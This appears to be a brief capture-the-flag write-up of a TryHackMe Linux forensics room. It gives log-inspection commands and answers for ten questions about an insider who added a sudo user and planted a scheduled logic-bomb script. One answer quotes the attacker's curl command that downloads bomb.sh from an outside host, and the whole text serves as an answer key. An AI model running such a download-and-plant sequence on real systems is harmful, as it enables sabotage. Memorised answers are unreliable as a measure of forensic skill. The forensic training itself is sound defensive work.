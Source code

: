 #linux #forensic 

https://tryhackme.com/r/room/disgruntled

---

**Q1 & Q2**
```shell
cat /var/log/auth.log* | grep -i COMMAND | grep -i apt | tail
```

He used the command **`/usr/bin/apt install dokuwiki`** in **`/home/cybert`**

**Q3**
```shell
cat /var/log/auth.log* | grep -i COMMAND | grep -i adduser | tail
```

The user added were **`it-admin`**

**Q4**
```shell
cat /var/log/auth.log* | grep visudo
```

The date is **`Dec 28 06:27:34`**

**Q5**
```shell
cat /home/it-admin/.bash_history | grep vi
```

The file is **`bomb.sh`**

**Q6**
```shell
cat /home/it-admin/.bash_history | grep bomb.sh
```

The command was **`curl 10.10.158.38:8080/bomb.sh --output bomb.sh`**

**Q7**
```shell
cat /home/it-admin/.viminfo
```

The file is **`/bin/os-update.sh`**

**Q8**
```shell
stat /bin/os-update.sh
```

The date is **`Dec 28 06:29`**

**Q9**
```shell
cat /bin/os-update.sh
```

The file is **`goodbye.txt`***

**Q10**
```shell
cat /etc/crontab
```

The time is **`08:00 AM`**


